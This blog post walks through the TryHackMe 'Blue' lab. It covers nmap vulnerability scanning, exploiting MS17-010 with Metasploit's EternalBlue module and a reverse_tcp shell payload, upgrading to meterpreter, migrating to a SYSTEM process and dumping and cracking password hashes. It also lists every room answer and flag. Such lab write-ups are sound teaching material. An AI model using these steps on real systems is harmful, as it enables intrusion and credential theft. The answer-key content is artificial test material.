 ```yaml
---
layout: post
title: Blue
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap]
---
```

![Blue](./assets/blue.gif){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

**Difficulty level:** Easy

## Task 1: Recon
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.


### Questions

Q1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

> "no answer needed"

Q2. How many ports are open with a port number under 1000?

> "3"

Q3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

> "ms17-010"


### MyWalk

Usually go with this scan...

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```
{: .nolineno }

But following the tip on Q1, about using some nmap scripting is very useful in this case:

```bash
nmap -sV -vv --script vuln 10.10.40.46
```
{: .nolineno }

We have now the answers to our questions above.

## Task 2: Gain Access

Exploit the machine and gain a foothold.

### Questions

Q1. Start Metasploit

> "No answer needed"

Q2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

> "exploit/windows/smb/ms17_010_eternalblue"

Q3. Show options and set the one required value. What is the name of this value? (All caps for submission)

> "RHOSTS"

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

```bash
set payload windows/x64/shell/reverse_tcp
```
{: .nolineno }

Q4. With that done, run the exploit!

> "No answer needed"

Q5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

> "No answer needed"

## Task 3: Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### Questions

Q1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)  
Hint: "Google this: shell_to_meterpreter"

> "post/multi/manage/shell_to_meterpreter"

Q2. Select this (use MODULE_PATH). Show options, what option are we required to change?

> "SESSION"

Q3. Set the required option, you may need to list all of the sessions to find your target here.  
Hint: "sessions -l"

> "No answer needed"

Q4. Run! If this doesn't work, try completing the exploit from the previous task once more.  
Hint: "Command: run (or exploit)"

> "No answer needed"

Q5. Once the meterpreter shell conversion completes, select that session for use.  
Hint: "sessions SESSION_NUMBER"

> "No answer needed"

Q6. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

> "No answer needed"

Q7. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

> "No answer needed"

## Task 4: Cracking

Dump the non-default user's password and crack it!

### Questions

Q1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

> "Jon"

Q2. Copy this password hash to a file and research how to crack it. What is the cracked password?  
Hint: "This password can be found within the rockyou.txt wordlist"

> "alqfna22"

## Task 5: Find Flags!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

### Questions

Q1. Flag1? This flag can be found at the system root.  
Hint: "Can you C it?"

> "flag{access_the_machine}"

Q2. Flag2? This flag can be found at the location where passwords are stored within Windows.  
Hint: "I wish I wrote down where I kept my password. Luckily it's still stored here on Windows."

*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

> "flag{sam_database_elevated_access}"

Q3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.  
Hint: "You'll need to have elevated privileges to access this flag."

> "flag{admin_documents_can_be_valuable}"
